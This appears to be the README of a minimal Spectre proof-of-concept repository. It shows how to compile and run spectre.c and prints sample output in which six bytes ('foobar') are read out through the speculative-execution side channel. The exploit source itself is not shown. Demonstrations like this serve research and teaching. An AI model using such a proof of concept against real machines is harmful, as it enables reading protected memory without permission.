 # spectre

Minimal PoC for Spectre

```
$ gcc spectre.c -o spectre
$ ./spectre 16 6
Reading 6 bytes at 16:
offset=16 byte=102 0x66 'f'
offset=17 byte=111 0x6f 'o'
offset=18 byte=111 0x6f 'o'
offset=19 byte=98 0x62 'b'
offset=20 byte=97 0x61 'a'
offset=21 byte=114 0x72 'r'
```
